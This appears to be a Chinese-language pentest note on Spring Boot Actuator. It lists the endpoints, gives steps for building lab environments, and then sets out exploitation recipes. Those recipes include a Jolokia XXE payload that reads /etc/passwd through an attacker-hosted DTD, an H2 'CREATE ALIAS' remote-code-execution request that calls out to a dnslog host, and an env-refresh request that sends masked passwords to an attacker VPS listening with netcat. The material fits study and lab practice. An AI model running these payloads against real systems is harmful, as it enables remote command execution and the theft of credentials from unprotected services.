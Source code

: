 ## Spring
Spring框架为开发Java应用程序提供了全面的基础架构支持, 它包含一些很好的功能, 如依赖注入和开箱即用的模块如: Spring JDBC, Spring MVC, Spring Security, Spring AOP, Spring ORM, Spring Test. 这些模块缩短应用程序的开发时间, 提高了应用开发的效率. 例如: 在Java Web开发的早期阶段, 开发者需要边下大量的代码来讲记录插入到数据库中, 但是通过使用Spring JDBC模块的JDBCTemplate, 可以将操作简化为几行代码

### SpringBoot
- Spring Boot是Pivotal团队在Spring的基础上提供的一套全新的开源框架, 其目的是为了简化Spring应用的搭建和开发过程
- Actuator是SpringBoot自带监控功能, 可以帮助实现对程序内部运行情况监控, 比如监控状况, Bean加载情况, 环境变量, 日志信息, 线程信息等

### 特征
- 默认错误信息页面: Whitelabel Error Page, 一般开发者会修改
- 绿叶图标, icon_hash: 116323821

### 常见端点
- /autoconfig: 提供一份自动配置报告, 记录通过和未通过的自动配置条件
- /configprops: 描述配置属性(包含默认值)如何注入Bean
- /beans: 描述应用程序上下文里的全部Bean, 以及他们的关系
- /dump: 获取线程活动的快照
- /env: 获取全部环境属性
- /env/{name}: 根据名称获取特定的环境属性值
- /health: 报告应用和层序的健康指标, 这些值由HealthIndicator的实现类提供
- /info: 获取应用程序的定制信息, 这些信息由info打头的属性提供
- /mappings: 描述全部的URL路径, 以及它们和控制器(包含Actuator端点)的映射关系
- /metrics: 报告各种应用程序度量信息, 比如内存用量和HTTP请求计数
- /metrics/{name}: 报告指定名称的应用度量值
- /shutdown: 关闭应用程序, 要求endpoints.shutdown.enabled设置为true(默认为false)
- /trace: 提供基本的HTTP请求跟踪信息(时间戳, HTTP头等)

### 实际案例
- 1.x版本: http://ip:port/env
- 2.x版本: http://ip:port/actuator/env
#### 环境搭建(要求java8版本)
- 安装mvn(maven): `apt install mvn` 或 `yun install maven`
- 更改mvn源: (https://www.cnblogs.com/shunzi115/p/12521630.html)
- (https://github.com/veracode-research/actuator-testbed)用git clone下文件夹
- `vim actuator-testbed/src/main/resources/application.properties`, 修改IP和端口为0.0.0.0:8090, 以广播到局域网
- `cd ../../../../`回到根文件夹, 执行命令 `mvn clean`, `mvn install`, `mvn spring-boot:run`
#### 批量扫描
- (https://github.com/rabbitmask/SB-Actuator), 使用python3启动

## 漏洞利用

### Jolokia XXE任意文件读取
访问服务器并引入另一机器中指定的XML的文件, 获取etc/passwd
- 查找 http://ip:port/jolokia/list 是否存在logback库提供的reloadByURL方法
- 攻击机创建文件`logback.xml`, `fileread.dtd`, 然后启动`python3 -m http.server 8080`
```
#logback.xml
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE a [ <!ENTITY % remote SYSTEM "http://xx.xx.xx.xx:xx/fileread.dtd">%remote;%int;]>
<a>&trick;</a>

#fileread.dtd
<!ENTITY % d SYSTEM "file:///etc/passwd">
<!ENTITY % int "<!ENTITY trick SYSTEM ':%d;'>">
```
- 任意机器访问靶机 `http://{tarip:tarport}/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/{atkip:atkport}!/logback.xml`


### Spring Boot Actuator H2 RCE
- 使用docker搭建环境 `git clone https://github.com/spacereccoon/spring-boot-actuator-h2-rce.git`
	- `cd spring-boot-sctuator-h2-rce`
	- `docker build -t spaceraccoon/spring-boot-rce-lab .` 不要忘记最后的空格点, 代表当前路径
	- `docker run -p 8080:8080 -t spaceraccoon/spring-boot-rce-lab`
- 访问/actuator/env, 使用burp抓包并切换为POST包, Content-type字段改成application/json, 最后的网址访问dnslog.cn, 获取临时dnslog域名, 或者使用BurpCollaborator client复制网址
```
{"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException {java.util.Scanner s = new java.uril.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()); if(s.hasNext()){return s.next();} throw new IllegalArgumentException();}'; CALL EXEC('curl http://pne9sm.dnslog.cn');"}
```
- 对/actuator/restart 发POST包, 请求包体不含内容
- burp能解析dns意味着靶机存在漏洞并且能够出网
- 利用漏洞: 在curl后面添加被\`包裹的cmd指令, 重新请求/actuator/restart获得结果

### env敏感信息脱星
- 访问/env接口时, spring actuator会将一些带有敏感关键词如password, secret的属性名对应的属性值用\*号替代达到脱敏的效果
- GET请求目标网站的/env或/actuator/env接口, 搜索`******`关键词, 找到想要获取的被星号遮掩的属性值对应的属性名
- 1.x: /env(refresh)
	- POST请求, Content-Type: application/x-www-from-urlencoded
	- 请求体: `eureka.client.serviceUrl.defaultZone=http://value:${security.user.password}@your-vps-ip:port` 
- 2.x: /actuator/env(refresh)
	- POST请求, Content-Type: application/json, 需要json键值对格式
	- 请求体: `{"name":"rureka.client.serviceUrl.defaultZone","value":"http://value:${security.user.password}@your-vps-ip:port"}`
- value的大括号中可以修改为目标的字段名
- 请求体设置manager下的新字段, 发送后访问/refresh重新请求, 会将指定的变量值以base64反射到vps上, vps需要监听对应端口`nc -lvvp 8080`
![[Pasted image 20220811215611.png]]
